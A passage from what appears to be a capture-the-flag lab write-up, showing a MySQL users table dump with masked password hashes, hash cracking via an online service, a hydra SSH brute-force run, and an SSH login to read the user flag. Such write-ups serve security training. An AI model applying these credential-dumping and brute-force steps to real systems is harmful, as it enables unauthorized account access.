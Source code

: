 ```console
MySQL [(none)]> use timetracking;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [timetracking]> show tables;
+------------------------+
| Tables_in_timetracking |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.082 sec)

MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2a****************************63 |   360 |
| chris-r  | 0d****************************b7 |   420 |
| jill-v   | d5****************************c8 |   564 |
| barry-b  | 4a****************************94 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0.084 sec)
```

Using [crackstation.net](https://crackstation.net/) to crack the hashes, we get some passwords.

![Cracked hashes](cracked_hashes.webp){: width="1000" height="450" }

### Shell as claire-r via SSH

Testing the usernames and passwords we have against SSH, we found a valid login.

```console
$ hydra -L usernames.txt -P passwords.txt ssh://10.10.142.44                
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-19 22:06:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://10.10.142.44:22/
[22][ssh] host: 10.10.142.44   login: claire-r   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-19 22:06:46
```

Using SSH, we get a shell as `claire-r` and are able to read the user flag.

```console
$ ssh claire-r@10.10.142.44
claire-r@10.10.142.44's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
...
claire-r@ctf:~$ wc -c user.txt 
38 user.txt
```
